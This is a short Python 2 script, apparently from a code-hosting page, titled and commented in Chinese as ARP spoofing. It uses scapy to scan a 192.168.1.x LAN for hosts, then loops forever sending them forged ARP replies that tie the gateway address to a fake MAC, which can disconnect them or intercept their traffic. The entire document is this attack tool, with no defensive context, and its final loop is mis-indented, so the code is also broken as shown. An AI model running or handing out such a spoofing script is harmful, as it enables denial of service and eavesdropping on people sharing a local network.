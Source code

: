 arp伪装
=====

    
    #coding:utf-8
    '''
    arp欺骗局域网pc，将伪造的网关mac以网关的arp应答发送给pc
    '''
    from scapy.all import ARP,send,arping
    import sys,re
    import time
     
    stdout=sys.stdout
    IPADDR="192.168.1.*"
    gateway_ip='192.168.1.1'
    #伪造网关mac地址
    gateway_hw='00:11:22:33:44:55'
    p=ARP(op = 2, hwsrc = gateway_hw, psrc = gateway_ip)
     
    def arp_hack(ip,hw):
        #伪造来自网关的arp应答
        t=p
        t.hwdst=hw
        t.pdst=ip
        send(t)
     
    def get_host():
        #得到在线主机的mac地址和对应ip地址
        hw_ip = {}
        sys.stdout = open('host.info','w')
        arping(IPADDR)
        sys.stdout = stdout
        f = open('host.info','r')
        info = f.readlines()
        # print info
        f.close
        del info[0]
        del info[0]
        print info
        for host in info :
            temp = re.split(r'\s+',host)
            hw_ip[temp[1]] = temp[2]
             
        return hw_ip
             
         
     
    if __name__ == "__main__":
        hw_ip = get_host()
        print hw_ip     #{'f0:eb:d0:0b:11:48': '192.168.1.1', '94:94:26:28:52:c3': '192.168.1.104'}
        time.sleep(5)
        while 1 :
            for i in hw_ip :
            arp_hack(hw=i,ip=hw_ip[i])
